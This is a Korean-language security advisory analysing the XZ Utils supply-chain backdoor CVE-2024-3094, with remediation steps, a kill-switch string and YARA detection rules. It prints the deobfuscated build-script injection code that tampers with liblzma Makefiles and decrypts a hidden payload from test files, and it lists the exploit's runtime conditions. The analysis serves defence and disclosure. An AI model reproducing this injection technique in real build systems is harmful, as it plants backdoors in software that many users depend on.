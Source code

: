 # XZ Utils 데이터 압축 라이브러리에 영향을 미치는 공급망 손상 취약점(CVE-2024-3094)
##### 원작자 : 문광일 PM, 김평일 대리, 김태현 사원
##### 작성자 : 김태현 사원
##### 작성일자 : 2024년 4월 7일
</br></br>

## (1) 취약점 설명

2024년 03월 29일자로 CISA(미국 사이버보안 및 인프라 보안국) Alert 페이지에 긴급으로 XZ Utils 데이터 압축 라이브러리 취약점 조치권고가 기재됨.</br></br>
CISA Alert 링크 :</br>
https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094

XZ Utils는 높은 압축률과 빠른 압축 해제를 제공하는 xz 압축 형식용 도구 모음임.</br></br>
XZ Utils 홈페이지(현재 접근 X) :</br>
https://xz.tukaani.org/xz-utils/
</br></br>

모든 GNU/리눅스 운영체제에서 데이터 압축에 필요한 필수 유틸리티를 제공하는 인기 오픈소스인 'XZ Utils' 라이브러리에서 백도어가 발견돼 전 세계 소프트웨어 및 보안 업계에 비상이 걸림.</br>
**특히, 해당 백도어 악성코드는 수많은 기업과 사용자들을 대상으로 한 소프트웨어 공급망 공격으로 볼 수 있어 피해 규모가 어느 정도 확대될지 파장이 커지고 있음.**

해당 취약점(CVE-2024-3094)은 소프트웨어 공급망 공격의 일종으로 **CVSS 3.1 점수는 10.0으로 최대 심각도**를 나타냄.</br>
해당 취약점은 최근 출시된 XZ Utils 버전 5.6.0(2월 24일 출시) 및 5.6.1(3월 9일 출시)에 영향을 미치는 것으로 알려짐.</br></br>
아래와 빠르게 대응이 필요함.</br>
NIST 링크 :</br></br>
https://nvd.nist.gov/vuln/detail/CVE-2024-3094

## (2) 취약한 버전 및 개선 버전
<div align="center"><img src="https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/16c8c1b2-f489-4214-a395-d7793d7252e2"></div>


## (3) 취약점 분석

백도어가 동작하게 되면 sshd의 로그인 프로세스 중 CPU 사용량이 크게 증가하게 되며 sshd 와 관련된 비정상적인 징후가 발생함.</br>

동작 방식은 XZ 빌드 프로세스 중 다음 줄이 포함된 구성 스크립트의 마지막에 실행되는 난독화된 스크립트를 삽입하며, xz-utils 및 liblzma용 MakeFiles 생성을 담당하는 Build-to-Host.m4 스크립트가 실행됨.</br></br>
`gl_[$1]config='sed "r\n" $gl_am_configmake | eval $gl_path_map | $gl[$1]_prefix -d 2>/dev/null'.`</br></br>

구성 스크립트에 포함된 숨겨진 코드는 특정 조건에 따라 백도어를 독점적으로 구현하고 있으며 특히, 구성 스크립트 내의 백도어 설치는 선택적 사항으로 표적 OS가 x86-64 Linux이고 XZ 빌드 프로세스가 Debian 또는 RPM 패키지 빌드의 일부여야 하고 해당 조건을 충족하지 못하면 백도어가 설치되지 않음.</br></br>
`if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1); then`</br></br>

난독화된 스크립트가 실행되면 OS가 x86-64 Linux인지, 빌드가 Debian 또는 RPM 패키지 빌드의 일부인지 확인하는 등 다양한 검사를 수행함.</br></br>
`if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64"; then`</br></br>

해당 스크립트는 런타임 중 심볼 확인을 방해하기 위해 liblzma의 MakeFile을 수정하여 RSA_public_decrypt@....pl 심볼을 악성 백도어 코드로 리디렉션하는 것을 목표로 하며, sshd의 공개 키 인증 프로세스 중에 RSA_public_decrypt@....pl 함수가 호출되어 공격자의 코드가 실행됨.</br></br>

이후 정상적인 인증을 위해 libcrypto를 다시 호출하여 공격자가 특정 조건에서 인증을 우회하여 취약한 서버에서 원격 코드 실행(RCE)으로 이어질 수 있도록 함.</br>

■ 익스플로잇 런타임 요구 사항
1. TERM 환경 변수는 SSH 클라이언트-서버 통신에서 인증 프로세스의 시작을 의미하므로 설정하지 않아야 함
2. 바이너리 경로는 /usr/sbin/sshd여야 하며, 이는 sshd가 liblzma 라이브러리를 사용할 때 악성 코드가 실행됨을 나타냄
3. 심볼 해상도 간섭이 노출되지 않도록 환경 변수 LD_DEBUG 및 LD_PROFILE은 설정되지 않은 상태로 유지함.
4. LANG 환경 변수는 sshd가 항상 설정 하므로 설정이 필요함
5. 익스플로잇은 안티 디버깅 기법을 사용하여 rr 및 gdb와 같은 디버깅 도구를 탐지하고 실행을 방지함

<details><summary>아래 코드는 난독 해제된 주요 코드에 대한 분석 자료임.</summary>
```
# 컴파일러 옵션을 변수에 할당
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
# pic_flag 변수에 P 변수의 값을 할당
C="pic_flag=\" $P\""
# O 변수 할당
O="^pic_flag=\" -fPIC -DPIC\"$"
# 아키텍처 확장 지원 여부를 판단하는 함수 이름을 변수에 할당
R="is_arch_extension_supported"
# CPU ID를 가져오는 함수의 시작 부분을 변수에 할당
x="__get_cpuid("
# 압축된 파일 이름을 변수에 할당
p="good-large_compressed.lzma"
# 손상된 LZMA2 형식의 파일 이름을 변수에 할당
U="bad-3-corrupt_lzma2.xz"
# zrKcVq 변수를 평가하여 실행
eval $zrKcVq
# config.status 파일이 존재하는지 확인
if test -f config.status; then
  # zrKcSS 변수를 평가하여 실행
  eval $zrKcSS
  # config.status 파일에서 LD, CC, GCC, srcdir, build, enable_shared, enable_static, gl_path_map 변수를 설정
  eval `grep ^LD=\'\/ config.status`
  eval `grep ^CC=\' config.status`
  eval `grep ^GCC=\' config.status`
  eval `grep ^srcdir=\' config.status`
  eval `grep ^build=\'x86_64 config.status`
  eval `grep ^enable_shared=\'yes\' config.status`
  eval `grep ^enable_static=\' config.status`
  eval `grep ^gl_path_map=\' config.status`
  # zrKccj 변수를 평가하여 실행
  eval $zrKccj
  # config.status 파일에서 "HAVE_FUNC_ATTRIBUTE_IFUNC"=" 1"이 설정되지 않았다면 스크립트 종료
  if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
    exit 0
  fi
  # config.h 파일에서 "HAVE_FUNC_ATTRIBUTE_IFUNC"이 정의되지 않았다면 스크립트 종료
  if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
    exit 0
  fi
  # enable_shared 변수가 "yes"가 아니라면 스크립트 종료
  if test "x$enable_shared" != "xyes";then
    exit 0
  fi
  # build 변수가 x86_64로 시작하지 않거나 linux-gnu로 끝나지 않는다면 스크립트 종료
  if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
    exit 0
  fi
fi
# $R() 함수가 crc64_fast.c 파일에 없으면 스크립트 종료
if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then
  exit 0
fi
# $R() 함수가 crc32_fast.c 파일에 없으면 스크립트 종료
if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc32_fast.c > /dev/null 2>&1; then
  exit 0
fi
# $R 변수가 crc_x86_clmul.h 파일에 없으면 스크립트 종료
if ! grep -qs "$R" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
  exit 0
fi
# $__get_cpuid 함수가 crc_x86_clmul.h 파일에 없으면 스크립트 종료
if ! grep -qs "$x" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
  exit 0
fi
# GCC 변수가 'yes'가 아니면 스크립트 종료
if test "x$GCC" != 'xyes' > /dev/null 2>&1; then
  exit 0
fi
# CC 변수가 'gcc'가 아니면 스크립트 종료
if test "x$CC" != 'xgcc' > /dev/null 2>&1; then
  exit 0
fi
# LD 변수에 '-v' 옵션을 추가하여 GNU ld가 아니면 스크립트 종료
LDv=$LD" -v"
if ! $LDv 2>&1 | grep -qs 'GNU ld' > /dev/null 2>&1; then
  exit 0
fi
# $srcdir/tests/files/$p 파일이 없으면 스크립트 종료
if ! test -f "$srcdir/tests/files/$p" > /dev/null 2>&1; then
  exit 0
fi
# $srcdir/tests/files/$U 파일이 없으면 스크립트 종료
if ! test -f "$srcdir/tests/files/$U" > /dev/null 2>&1; then
  exit 0
fi
# debian/rules 파일이 있거나 RPM_ARCH 변수가 'x86_64'이면 zrKcst 변수를 평가하여 실행
if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64"; then
  eval $zrKcst
  # src/liblzma/Makefile 파일에서 ACLOCAL_M4 정의가 없으면 스크립트 종료
  j="^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4"
  if ! grep -qs "$j" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 am__uninstall_files_from_dir 정의가 없으면 스크립트 종료
  z="^am__uninstall_files_from_dir = {"
  if ! grep -qs "$z" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 am__install_max 정의가 없으면 스크립트 종료
  w="^am__install_max ="
  if ! grep -qs "$w" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 z 변수 정의가 없으면 스크립트 종료
  E=$z
  if ! grep -qs "$E" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
fi
# src/liblzma/Makefile 파일에서 am__vpath_adj_setup 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$Q" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 am__include 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$M" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 all: all-recursive 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$L" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 LTLIBRARIES 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$m" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 AM_V_CCLD 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$u" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# libtool 파일에서 $O 변수를 찾지 못하면 스크립트 종료
if ! grep -qs "$O" libtool > /dev/null 2>&1; then
  exit 0
fi
# zrKcTy 변수를 평가하여 실행
eval $zrKcTy
# Makefile의 $j 검색 결과 바로 위에 $b 변수의 값 삽입
b="am__test = $U"
sed -i "/$j/i$b" src/liblzma/Makefile || true
# gl_path_map 변수에서 슬래시를 이스케이프하는 작업 후, 결과를 $d에 저장
d=`echo $gl_path_map | sed 's/\\\/\\\\\\\\/g'`
# Makefile의 $w 검색 결과 바로 위에 정의된 $b 변수의 값을 삽입
b="am__strip_prefix = $d"
sed -i "/$w/i$b" src/liblzma/Makefile || true
# Makefile의 $E 검색 결과 바로 위에 $b 변수의 값 삽입
b="am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)"
sed -i "/$E/i$b" src/liblzma/Makefile || true
# Makefile의 $Q 검색 결과 바로 위에 $s 변수의 값 삽입
b="\$(top_srcdir)/tests/files/\$(am__test)"
s="am__test_dir=$b"
sed -i "/$Q/i$s" src/liblzma/Makefile || true
# LDFLAGS에 "-z,now" 옵션이 포함되어 있지 않으면 $h 변수에 추가
h="-Wl,--sort-section=name,-X"
if ! echo "$LDFLAGS" | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1; then
  h=$h",-z,now"
fi
# Makefile의 $L 검색 결과 바로 위에 $j 변수의 값 삽입
j="liblzma_la_LDFLAGS += $h"
sed -i "/$L/i$j" src/liblzma/Makefile || true
# libtool 파일에서 $O를 $C로 대체
sed -i "s/$O/$C/g" libtool || true
# Makefile에서 $u를 $k로 대체
k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
sed -i "s/$u/$k/" src/liblzma/Makefile || true
# Makefile의 $m 검색 결과 바로 위에 $l 변수의 값 삽입
l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\
    export top_src
    export top_srcdir='\$(top_srcdir)'; \\\\\n\
    export CC='\$(CC)'; \\\\\n\
    export DEFS='\$(DEFS)'; \\\\\n\
    export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\
    export INCLUDES='\$(INCLUDES)'; \\\\\n\
    export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\
    export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\
    export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\
    export CFLAGS='\$(CFLAGS)'; \\\\\n\
    export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\
    export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\
    export libdir='\$(libdir)'; \\\\\n\
    export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\
    export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\
    # rpath를 사용하여 am__test_dir에서 실행 파일을 찾고, am__dist_setup을 통해 압축 해제 및 실행 환경 구성
    sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";
sed -i "/$m/i$l" src/liblzma/Makefile || true
# zrKcHD 변수를 평가하여 실행
eval $zrKcHD
fi
# 먼저, .libs 폴더 내에 liblzma_la-crc64_fast.o 파일과 liblzma_la-crc32_fast.o 파일이 모두 존재하는지 확인함
elif (test -f .libs/liblzma_la-crc64_fast.o) && (test -f .libs/liblzma_la-crc32_fast.o); then
# 조건을 충족하면 zrKcKQ 변수에 저장된 명령을 실행함
eval $zrKcKQ
# src/liblzma/check/crc64_fast.c 파일에 $R() 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc64_fast.c; then
exit 0
fi
# src/liblzma/check/crc32_fast.c 파일에 $R() 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc32_fast.c; then
exit 0
fi
# src/liblzma/check/crc_x86_clmul.h 파일에 $R 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
# src/liblzma/check/crc_x86_clmul.h 파일에 $x 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$x" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
# ../../libtool 파일에 $C 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$C" ../../libtool; then
exit 0
fi
# liblzma_la_LINK 변수에 "-z,now" 또는 "-z -Wl,now" 옵션이 포함되어 있지 않은 경우 스크립트 실행을 중단함
if ! echo $liblzma_la_LINK | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
exit 0
fi
# liblzma_la_LINK 변수에 "lazy" 옵션이 포함되어 있는 경우 스크립트 실행을 중단함
if echo $liblzma_la_LINK | grep -qs -e "lazy" > /dev/null 2>&1;then
exit 0
fi
# N과 W 변수를 초기화
N=0
W=0
# $top_srcdir/m4/gettext.m4 파일에서 "dnl Convert it to C string syntax." 문자열을 찾아 Y 변수에 저장함
Y=`grep "dnl Convert it to C string syntax." $top_srcdir/m4/gettext.m4`
# zrKcjv 변수에 저장된 명령을 실행함
eval $zrKcjv
# Y 변수가 비어있는 경우 N을 0으로, W를 88792으로 설정함
if test -z "$Y"; then
N=0
W=88792
# 그렇지 않은 경우 N을 88792으로, W를 0으로 설정함
else
N=88792
W=0
fi
# tests/files 폴더 내의 압축된 테스트 파일($p)을 xz 명령으로 해제하고, $i 변수에 저장된 명령을 실행함
# 그 결과를 sed와 awk를 통해 처리하고, 이를 다시 xz로 압축해 단일 스트림으로 만들어 liblzma_la-crc64-fast.o 파일에 저장함
# 모든 명령이 성공적으로 실행되지 않을 경우 true(0)을 반환하여 스크립트가 계속 실행되게 함
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<4096;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
# liblzma_la-crc64-fast.o 파일이 존재하지 않으면 스크립트 실행을 중단함
if ! test -f liblzma_la-crc64-fast.o; then
exit 0
fi
# .libs 폴더 내에 있는 liblzma_la-crc64_fast.o 파일을 liblzma_la-crc64-fast.o 파일로 복사함
# 복사에 실패해도 스크립트 실행을 중단하지 않음
cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
# V 변수에 특정 조건을 충족하는 아키텍처에서 지원되는 함수를 확인하는 코드를 저장함
V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
# yosA 변수에 저장된 명령을 실행함
eval $yosA
# crc64_fast.c 파일을 수정하여 is_arch_extension_supported() 함수 대신 _is_arch_extension_supported()를 사용하고,
# crc_x86_clmul.h 헤더 파일을 포함하는 코드를 추가함
# 이 변경 사항을 적용하고 컴파일하여 .libs 폴더 내에 새로운 liblzma_la-crc64_fast.o 객체 파일을 생성함
# crc64_fast.c 파일에서 아키텍처 지원 여부를 확인하는 함수를 수정함
# 이를 위해 sed를 사용하여 is_arch_extension_supported() 호출을 _is_arch_extension_supported()로 변경함
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then
# crc32_fast.c 파일을 수정하여 is_arch_extension_supported() 함수 대신 _is_arch_extension_supported()를 사용하고,
# crc32_arm64.h 헤더 파일을 포함하는 코드를 추가함
# 이 변경 사항을 적용하고 컴파일하여 .libs 폴더 내에 새로운 liblzma_la-crc32_fast.o 객체 파일을 생성함
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \
sed "/include \"crc32_arm64.h\"/a \\$V" | \
sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
eval $RgYB
# liblzma 라이브러리를 링크하고, 라이브러리가 성공적으로 생성되지 않았다면,
# .libs 폴더 내의 crc32 및 crc64 관련 객체 파일들의 이름을 조정함
if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
    if test ! -f .libs/liblzma.so; then
        mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
        mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
    fi
    # 생성된 라이브러리 파일들을 삭제함
    rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
else
    # 라이브러리 링크 과정이 실패했다면, 객체 파일들의 이름을 조정함
    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
# 사용하지 않는 객체 파일들을 삭제함
rm -f .libs/liblzma_la-crc32-fast.o || true
rm -f .libs/liblzma_la-crc64-fast.o || true
# 앞서 진행한 변경 사항이 성공적으로 적용되지 않았다면,
# .libs 폴더 내의 crc32 및 crc64 관련 객체 파일들의 이름을 조정함
else
    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
# 마지막으로, 더 이상 필요하지 않은 liblzma_la-crc64-fast.o 파일을 삭제함
rm -f liblzma_la-crc64-fast.o || true
fi
eval $DHLd
```
</details> 


## (4) 취약점 대응

1. CVE-2024-3094 취약점 여부 탐지 후 개선 버전(다운그레이드)으로 변경 설치</br>
다음을 실행하여 “XZ” 버전이 영향을 받는 버전(5.6.0 or 5.6.1)인지 확인함.</br>
```strings `which xz` | grep '5\.6\.[01]```</br></br>
영향받는 버전일 경우 다음과 같이 출력함.</br>
`xz (XZ Utils) 5.6.1`

또는 Alpine Package Manager 를 사용하여 버전을 확인할 수 있음.
`$ apk list xz
xz-5.6.1-r2 x86_64 {xz} ...`

2. 악성 백도어 기능 비활성화
업그레이드나 다운그레이드가 불가능한 경우, 백도어의 “킬 스위치” 를 통해 악성 백도어 기능을 비활성화가 가능함.
/etc/environment 파일에 다음 문자열을 추가함. (단, SSH 및 Systemd를 다시 시작한 후 적용)
`sudo systemctl restart ssh`</br>

`yolAbejyiejuvnup=Evjtgvsh5okmkAvj`

3. CVE-2024-3094 취약점 탐지 도구 사용
아래 오픈소스 도구를 이용하여 로컬 시스템이 CVE-2024-3094에 취약하고 XZ의 악성 버전이 설치되어 있는지 검사함.</br>
도구 1 : https://github.com/jfrog/cve-2024-3094-tools/tree/main/cve-2024-3094-detector</br>
도구 2.: https://github.com/FabioBaroni/CVE-2024-3094-checker

4. yara 를 이용한 EDR 패턴 업데이트
```
rule BKDR_XZUtil_Script_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects make file and script contents used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4"
      date = "2024-03-30"
      score = 80
      hash = "d44d0425769fa2e0b6875e5ca25d45b251bbe98870c6b9bef34f7cea9f84c9c3"
   strings:
      $x1 = "/bad-3-corrupt_lzma2.xz | tr " ascii
      $x2 = "/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|" ascii
      $x3 = "eval $zrKcKQ" ascii
   condition:
      1 of them
}
rule BKDR_XZUtil_Binary_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects injected code used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4"
      date = "2024-03-30"
      score = 75
      hash1 = "319feb5a9cddd81955d915b5632b4a5f8f9080281fb46e2f6d69d53f693c23ae"
      hash2 = "605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4"
      hash3 = "8fa641c454c3e0f76de73b7cc3446096b9c8b9d33d406d38b8ac76090b0344fd"
      hash4 = "b418bfd34aa246b2e7b5cb5d263a640e5d080810f767370c4d2c24662a274963"
      hash5 = "cbeef92e67bf41ca9c015557d81f39adaba67ca9fb3574139754999030b83537"
      hash6 = "5448850cdc3a7ae41ff53b433c2adbd0ff492515012412ee63a40d2685db3049"
   strings:
      $op1 = { 48 8d 7c 24 08 f3 ab 48 8d 44 24 08 48 89 d1 4c 89 c7 48 89 c2 e8 ?? ?? ?? ?? 89 c2 }
      $op2 = { 31 c0 49 89 ff b9 16 00 00 00 4d 89 c5 48 8d 7c 24 48 4d 89 ce f3 ab 48 8d 44 24 48 }
      $op3 = { 4d 8b 6c 24 08 45 8b 3c 24 4c 8b 63 10 89 85 78 f1 ff ff 31 c0 83 bd 78 f1 ff ff 00 f3 ab 79 07 }
      /* function signature from detect.sh provided by Vegard Nossum */
      $xc1 = { F3 0F 1E FA 55 48 89 F5 4C 89 CE 53 89 FB 81 E7 00 00 00 80 48 83 EC 28 48 89 54 24 18 48 89 4C 24 10 }
   condition:
      uint16(0) == 0x457f
      and (
         all of ($op*)
         or $xc1
      )
}
rule BKDR_XZUtil_KillSwitch_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects kill switch used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01?permalink_comment_id=5006558#gistcomment-5006558"
      date = "2024-03-30"
      score = 85
   strings:
      $x1 = "yolAbejyiejuvnup=Evjtgvsh5okmkAvj"
   condition:
      $x1
}
```


## (5) 참고 사이트

https://openwall.com/lists/oss-security/2024/03/29/4</br>
https://www.boannews.com/media/view.asp?idx=128350&kind=&sub_kind=</br>
https://jfrog.com/blog/xz-backdoor-attack-cve-2024-3094-all-you-need-to-know/</br>
https://www.picussecurity.com/resource/blog/cve-2024-3094-a-backdoor-in-xz-utils-leads-to-remote-code-execution</br>
https://vulcan.io/blog/alert-cve-2024-3094

